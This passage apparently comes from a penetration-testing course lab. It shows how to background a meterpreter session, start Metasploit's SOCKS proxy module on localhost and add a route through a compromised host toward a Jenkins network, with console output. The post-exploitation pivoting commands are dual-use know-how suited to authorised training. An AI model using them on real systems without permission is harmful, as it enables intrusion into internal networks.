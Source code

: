 Before we can start the SOCKS proxy, we need to navigate to the main Metasploit menu. To do this, we'll have to **exit** our shell and **background** the current session. It's important that we only run **exit** if we are in an _active shell_. If not, we will end up exiting Metasploit.

```
exit
[-] core_channel_interact: Operation failed: Unknown error

meterpreter > background
[*] Backgrounding session 1...
```

> Listing 46 - Exiting Shell and Sending Session to Background

Next, we'll start the SOCKS proxy in meterpreter. We'll use the _auxiliary/server/socks_proxy_ module. We don't want the SOCKS proxy exposed to the internet, so we'll change **SRVHOST** from the default, which is all interfaces, to only listen on **127.0.0.1**. Finally, we'll **run** the module as a job (**-j**).

```
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1

msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 1.
```

> Listing 47 - Using SOCKS Proxy Module and Running it

The SOCKS proxy will now start on _localhost_ port 1080 by default.

Now that the SOCKS proxy is running, let's add a route for any connection made through the SOCKS proxy to go through the shell. We'll first list all current active sessions by running **sessions**. From this, we'll be able to obtain the ID of the session. Next, we'll run **route** with the **add** command. We'll specify the network we're targeting with the Jenkins server IP (172.30.0.1) and its network mask (255.255.0.0). Finally, we'll provide this command with the session ID (**2**, in our case).

```
msf6 exploit(server/socks_proxy) > sessions

Active sessions
===============

  Id  Name  Type                      Information          Connection
  --  ----  ----                      -----------          ----------
  2         meterpreter python/linux  root @ 6699d104d6c5  10.0.1.54:4488 -> 198.18.53.73:37604 (172.18.0.4)

msf6 auxiliary(server/socks_proxy) > route add 172.30.0.1 255.255.0.0 2
```

> Listing 48 - Creating Route

At this point, we have the SOCKS proxy and the route added. However, we do not have the SSH tunnel that will make the SOCKS proxy available on our personal Kali instance.
